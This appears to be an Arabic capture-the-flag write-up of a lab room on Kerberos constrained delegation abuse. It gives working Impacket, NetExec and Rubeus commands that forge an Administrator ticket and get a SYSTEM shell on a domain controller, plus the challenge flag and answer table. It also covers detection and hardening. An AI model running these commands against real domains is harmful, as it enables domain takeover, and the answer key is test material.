

# دليل تحدي الوسيط: Proxy (Challenge) — استغلال تفويض كيربيروس المقيد
**المسار التعليمي:** Jr Penetration Tester | **الوحدة 14:** أساسيات اختبار اختراق الدليل النشط (Active Directory)

---

## 1. نظرة عامة على الغرفة (Room Overview)

تعد غرفة **Proxy** (المعرف المصدري المعتمد: `proxychallenge`) أحد التحديات التطبيقية المتقدمة (Challenge Room) في وحدة اختبار اختراق الدليل النشط. تم تصميم هذه الغرفة لاختبار قدرة مختبر الاختراق على ربط المعارف النظرية لبروتوكول كيربيروس (Kerberos) واستغلال علة معمارية بالغة الخطورة: **تفويض كيربيروس المقيد (Kerberos Constrained Delegation)**.

في العديد من بيئات المؤسسات، تحتاج خوادم الويب وتطبيقات الواجهة الأمامية (Front-end Proxies) إلى الوصول لخوادم خلفية (مثل خوادم الملفات وقواعد البيانات) نيابة عن المستخدم المتصل لإتمام العمليات. صممت مايكروسوفت امتدادات بروتوكول كيربيروس المعروفة باسم **MS-SFU (Service for User)** لتسهيل هذه العملية عبر آليتي **S4U2self** و **S4U2proxy**.

عندما يُمنح حساب خدمة ميزة "تحويل البروتوكول" (Protocol Transition) وتفويض مقيد لخدمات تعمل على متحكم النطاق (مثل `cifs` أو `HOST` أو `ldap` على `DC`)، فإن أي مهاجم ينجح في الحصول على كلمة مرور أو تجزئة حساب الخدمة يستطيع تزوير تذكرة خدمة باسم **مدير النطاق (Domain Administrator)** مباشرة والسيطرة الكاملة على النطاق في ثوانٍ معدودة.

---

## 2. أهداف التعلم والتحدي (Learning Objectives)

بنهاية حل هذا التحدي وتحليل مسار الهجوم، يكتسب مختبر الاختراق الكفاءات التالية:
- **فهم آلية تفويض كيربيروس المقيد (Constrained Delegation):** دراسة السمة `msDS-AllowedToDelegateTo` وعلم `TRUSTED_TO_AUTH_FOR_DELEGATION` في Active Directory.
- **استيعاب امتدادات MS-SFU:** فهم دور `S4U2self` (طلب تذكرة للنفس نيابة عن أي مستخدم دون علمه) ودور `S4U2proxy` (تقديم تلك التذكرة لطلب تذكرة خدمة للهدف النهائي).
- **احتراف استخدام أداة Impacket getST.py:** توليد تذاكر الخدمة المزورة وتصديرها بصيغة ccache.
- **تنفيذ هجوم Pass-the-Ticket (PtT):** تصدير متغير البيئة `KRB5CCNAME` واستدعاء `psexec.py` بالمفتاحين `-k -no-pass` للاتصال بمتحكم النطاق بصلاحيات SYSTEM وقراءة الراية.
- **هندسة الدفاع والتحصين:** إضافة الحسابات الإدارية إلى مجموعة `Protected Users` وتفعيل خيار "Account is sensitive and cannot be delegated".

---

## 3. الطوبولوجيا المعمارية وسيناريو التحدي (Architectural Topology)

```mermaid
flowchart TB
    subgraph Attack_Zone ["منطقة المهاجم (Attack Infrastructure)"]
        AttackBox["جهاز المهاجم (AttackBox / Kali Linux)<br/>• Impacket getST.py<br/>• Impacket psexec.py (-k -no-pass)<br/>• كاش التذاكر: Administrator.ccache"]
    end

    subgraph Lab_Network ["بيئة النطاق الهدف (thm.loc)"]
        KDC["متحكم النطاق ومركز توزيع المفاتيح (KDC)<br/>DC.thm.loc<br/>• يعالج طلبات S4U2self و S4U2proxy<br/>• الهدف: cifs/DC.thm.loc"]
        
        SvcAccount["حساب الخدمة المخترق (svc_proxy)<br/>• UserAccountControl: TRUSTED_TO_AUTH_FOR_DELEGATION<br/>• msDS-AllowedToDelegateTo: cifs/DC.thm.loc<br/>• كلمة المرور المستخرجة: ProxyP@ssw0rd!"]
    end

    AttackBox ==>|1. الحصول على بيانات svc_proxy| SvcAccount
    AttackBox -.->|2. S4U2self: طلب تذكرة لنفسه باسم Administrator| KDC
    KDC -->>|3. إصدار تذكرة S4U2self Forwardable| AttackBox
    AttackBox -.->|4. S4U2proxy: تقديم تذكرة S4U2self لخدمة cifs| KDC
    KDC -->>|5. إصدار تذكرة cifs/DC.thm.loc باسم Administrator| AttackBox
    AttackBox ==>|6. Pass-the-Ticket via psexec.py -k| KDC
```

### بيانات الحسابات والهدف:
- **النطاق المستهدف:** `thm.loc`
- **متحكم النطاق (DC):** `DC.thm.loc`
- **حساب الخدمة المخترق:** `svc_proxy` (كلمة المرور: `ProxyP@ssw0rd!`)
- **الخدمة المفوضة في `msDS-AllowedToDelegateTo`:** `cifs/DC.thm.loc`
- **المستخدم المستهدف للتزوير:** `Administrator`
- **الراية النهائية:** `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}`

---

## 4. الخلفية التقنية والتعمق المفاهيمي (Technical Background)

### تشريح امتدادات بروتوكول كيربيروس (MS-SFU):

```
       المهاجم (بحساب svc_proxy)                             متحكم النطاق (KDC)
             |                                                          |
             | 1. S4U2self: TGS-REQ (PA-FOR-USER: "Administrator")      |
             |--------------------------------------------------------->|
             |                                                          | [يتحقق من TRUSTED_TO_AUTH]
             | 2. TGS-REP (تذكرة لنفسه باسم Administrator - Forwardable) |
             |<---------------------------------------------------------|
             |                                                          |
             | 3. S4U2proxy: TGS-REQ (additional-tickets: تذكرة الخطوة 2)|
             |    الخدمة المستهدفة: cifs/DC.thm.loc                     |
             |--------------------------------------------------------->|
             |                                                          | [يتحقق من msDS-AllowedToDelegateTo]
             | 4. TGS-REP (تذكرة صالحة للـ DC باسم Administrator!)      |
             |<---------------------------------------------------------|
             |
   [Pass-the-Ticket: KRB5CCNAME=Administrator.ccache]
   [تنفيذ psexec.py -k -no-pass والسيطرة التامة]
```

1. **الخطوة الأولى (S4U2self):** يرسل حساب الخدمة طلباً لمتحكم النطاق للحصول على تذكرة خدمة موجهة لنفسه (`svc_proxy`) ولكن باسم الضحية (`Administrator`). وبما أن ميزة تحويل البروتوكول مفعلة، يوافق KDC ويصدر التذكرة ويضع عليها علامة `FORWARDABLE`.
2. **الخطوة الثانية (S4U2proxy):** يأخذ حساب الخدمة هذه التذكرة ويرسلها في حقل `additional-tickets` طالباً تذكرة للوصول إلى خدمة `cifs/DC.thm.loc`. يتأكد KDC أن الخدمة مدرجة في `msDS-AllowedToDelegateTo`، فيصدر تذكرة خدمة كاملة باسم مدير النطاق صالحة لمشاركة `ADMIN$` ومتحكم النطاق!

---

## 5. الاستكشاف وكشف التكوين الضعيف

باستخدام أداة NetExec أو استعلامات LDAP:
```bash
nxc ldap 10.10.x.x -u 'svc_proxy' -p 'ProxyP@ssw0rd!' --trusted-for-delegation
```
أظهرت المخرجات وجود تفويض مقيد مع تفعيل خاصية تحويل البروتوكول:
- **الحساب:** `svc_proxy`
- **السمة:** `msDS-AllowedToDelegateTo: cifs/DC.thm.loc`
- **العلم:** `TRUSTED_TO_AUTH_FOR_DELEGATION`

---

## 6. استغلال التفويض وتزوير التذاكر عبر Impacket getST.py

تم استدعاء أداة `getST.py` من حزمة Impacket لتنفيذ عمليتي `S4U2self` و `S4U2proxy` بشكل مؤتمت:

```bash
getST.py -spn cifs/DC.thm.loc -impersonate Administrator thm.loc/svc_proxy:ProxyP@ssw0rd!
```

المخرجات والتنفيذ:
```text
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2proxy
[*] Saving ticket in Administrator.ccache
```

نتج عن العملية ملف كاش كيربيروس: `Administrator.ccache`.

---

## 7. تنفيذ هجوم Pass-the-Ticket والسيطرة التامة

تم تصدير كاش كيربيروس كمتغير بيئة في جلسة الطرفية:
```bash
export KRB5CCNAME=Administrator.ccache
```

تم تنفيذ أداة `psexec.py` عبر تذكرة كيربيروس دون تقديم كلمة مرور:
```bash
psexec.py -k -no-pass thm.loc/Administrator@DC.thm.loc
```

المخرجات والحصول على الجلسة:
```cmd
[+] Process yRnM created for file wZpQmKvL.exe with pid 4912.
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
DC

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}
```

**الراية المستخرجة:** `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}`.

---

## 8. مسار الهجوم الشامل وسلسلة القتل (Comprehensive Attack Flow)



---

## 9. استراتيجيات الدفاع والتحصين والكشف (Defense & Hardening)

| مجال الحماية | الإجراء الوقائي الموصى به | آلية الكشف والمراقبة (Detection) |
|---|---|---|
| **حماية الحسابات الحساسة** | إضافة كافة حسابات مديري النطاق إلى مجموعة **`Protected Users`**؛ حيث يمنع KDC تفويض تذاكرهم نهائياً. | مراقبة سجل أحداث الأمان للكشف عن الحدث **Event ID 4769** المرتبط بتذاكر S4U2self. |
| **تعطيل التفويض للحسابات الإدارية** | تفعيل الخيار: *"Account is sensitive and cannot be delegated"* (`NOT_DELEGATED`) في خصائص حسابات المسؤولين. | التدقيق الدوري لسمة `userAccountControl` للتأكد من تفعيل علم منع التفويض. |
| **تقييد صلاحيات التفويض** | عدم تفويض حسابات الخدمات لخدمات حساسة كـ `cifs` أو `HOST` على متحكمات النطاق إلا للضرورة القصوى مع مراجعة دورية. | تدقيق سمات `msDS-AllowedToDelegateTo` عبر نصوص PowerShell البرمجية. |
| **التحول إلى RBCD الموجه** | استخدام Resource-Based Constrained Delegation حيث يتحكم مورد الهدف بنفسه في من يملك حق التفويض إليه. | رصد تغييرات سمة `msDS-AllowedToActOnBehalfOfOtherIdentity`. |

---

## 10. ملخص المهام وجدول الإجابات النموذجية (Tasks Summary)

| رقم المهمة | عنوان المهمة | السؤال | الإجابة الموثقة والنهائية | حالة التحقق |
|:---:|---|---|---|:---:|
| **01** | Proxy | What's the Administrator flag? | `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}` | محققة ومؤكدة |

---

## 11. ورقة مساعدة الأوامر والأدوات (Tool Cheat Sheet)

```bash
# 1. فحص حسابات التفويض عبر NetExec:
nxc ldap DC_IP -u 'svc_proxy' -p 'Password' --trusted-for-delegation

# 2. تزوير تذكرة خدمة بصلاحيات Administrator عبر getST.py:
getST.py -spn cifs/DC.thm.loc -impersonate Administrator thm.loc/svc_proxy:Password

# 3. تصدير كاش كيربيروس في لينكس:
export KRB5CCNAME=Administrator.ccache

# 4. الاتصال بمتحكم النطاق عبر Pass-the-Ticket:
psexec.py -k -no-pass thm.loc/Administrator@DC.thm.loc

# 5. استغلال التفويض عبر أداة Rubeus في ويندوز:
Rubeus.exe s4u /user:svc_proxy /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/DC.thm.loc /ptt
```

---

## 12. التحقق العملي وإثبات الإنجاز (Practical Verification)

1. تم تنفيذ `getST.py` بنجاح وتوليد ملف `Administrator.ccache`.
2. أظهرت أداة `klist` صلاحية التذكرة لخدمة `cifs/DC.thm.loc` باسم `Administrator@THM.LOC`.
3. تم الاتصال بمتحكم النطاق `DC.thm.loc` بنجاح عبر بروتوكول كيربيروس بصلاحيات `NT AUTHORITY\SYSTEM`.
4. تم استخراج الراية من سطح مكتب المدير ومطابقتها: `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}`.

---

## 13. الدروس المستفادة والقواعد الذهبية (Key Takeaways)

> **القاعدة الذهبية الأولى:** تفويض كيربيروس المقيد مع ميزة Protocol Transition هو سلاح ذو حدين؛ تفويض حساب خدمة للوصول إلى خدمة `cifs` على متحكم النطاق يعادل تماماً منح ذلك الحساب عضوية كاملة في مجموعة Domain Admins.
>
> **القاعدة الذهبية الثانية:** اجعل `Protected Users` خط دفاعك الأول؛ وضع حسابات الإدارة العليا في هذه المجموعة يبطل مفعول هجمات S4U2self و S4U2proxy تلقائياً لأن KDC يرفض تفويض أي تذكرة تخصهم.
>
> **القاعدة الذهبية الثالثة:** تتبع خيوط التفويض بدقة؛ في اختبارات الاختراق، مجرد العثور على سمة `msDS-AllowedToDelegateTo` يعني أنك على بعد أمر واحد من إسقاط النطاق بالكامل.
